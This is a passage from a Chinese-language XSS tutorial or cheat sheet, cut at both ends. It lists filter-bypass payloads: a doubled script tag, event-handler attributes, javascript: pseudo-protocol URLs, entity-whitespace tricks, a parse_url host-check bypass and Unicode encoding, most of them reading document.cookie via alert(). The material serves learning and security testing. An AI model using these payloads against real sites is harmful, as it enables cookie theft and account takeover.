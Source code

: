 + 可以进行双写绕过简单的删除"\<script>"字符串
`<scr<script>ipt>alert(document.cookie)</script>`
### 事件处理程序
很多HTML节点都可以绑定事件处理程序。
例如：
\<button>：按钮标签，可以绑定点击事件。

\<input>：输入标签，可以绑定多种事件，如输入事件、改变事件等。

\<select>：下拉列表标签，可以绑定改变事件。

\<textarea>：文本区域标签，可以绑定输入事件、改变事件等。

\<a>：超链接标签，可以绑定点击事件。

\<form>：表单标签，可以绑定提交事件。

\<img>：图片标签，可以绑定加载事件、点击事件等。

\<video>：视频标签，可以绑定播放事件、暂停事件等。

\<audio>：音频标签，可以绑定播放事件、暂停事件等。

\<div>：容器标签，可以通过JavaScript绑定各种事件，如点击事件、鼠标移入事件等
例如：
```
<img src=0 onerror="alert(document.cookie);">
<object onerror=alert(document.cookie)>
<input onfocus=alert(document.cookie)>
<video src=0 onerror=alert(document.domain)>
<svg onload=alert(document.domain)>
```
### JavaScript伪协议
浏览器可以接受内联的JavaScript代码作为URL，所以在需要指定URL的标签属性中，可以尝试构造一个 JavaScript伪协议的URL来执行JavaScript代码。
```
<a href = javascript:alert(1)>click me</a>
<iframe src=javascript:alert(1)></iframe>
<form action=javascript:alert(1)>
<object data=javascript:alert(1)>
<button formaction=javascript:alert(1)>click</button>
```
一些安全功能会过滤掉JavaScript伪协议，不过可以尝试在关键词中插入空白字符绕过检测：
```
<a href="javascript&#9:alert(document.domain)">click me</a>
```
有的开发人员在校验URL的合法性时只校验host是否为合法域名，没有校验其协议是否合法。(host字段用来区别同一主机上部署的不同网站，值为：URL:port)，此场景下，可以绕过校验实现XSS攻击。例如：
```
javascript://example.com/%0d%0aalert(1)
```
其中//example.com/会被当作JavaScript代码的注释
PHP中对这个URL使用parse_url来解析，将得到如下结果：
```
arry(3){
    ["scheme"]=>string(10) "javascript"
    ["host"]=>string(11) "example.com"
    ["path"]=>string(12) "/%0d%0aalert(1)"
}
```
当web应用只校验host时，可使用该方式进行绕过，实现XSS
### 编码绕过
网页的不同位置支持不同的编码的方式，如在HTML标签中的属性中可以使用HTML实体编码的祖父。浏览器也可以兼容不标准的编码方式，如缺少分号的数字编码。
大部分的WAF产品都会实现HTML实体编码。为了使可读性更好，在HTML中对很多字符可以使用命名实体编码，如果安全过滤功能不支持实体解码，或只实现了部分字符的解码，则安全过滤功能可能被绕过。比如，HTML5中新增的实体编码。
如果服务端过滤了JavaScript特征代码，可以将关键的代码用Unicode编码，以此绕过检测，如：
```<script>\u0061lert(1)</script>```
如果把Payload放在HTML标签中，还可以将Unicode和HTML实体编码叠加使用，如：
```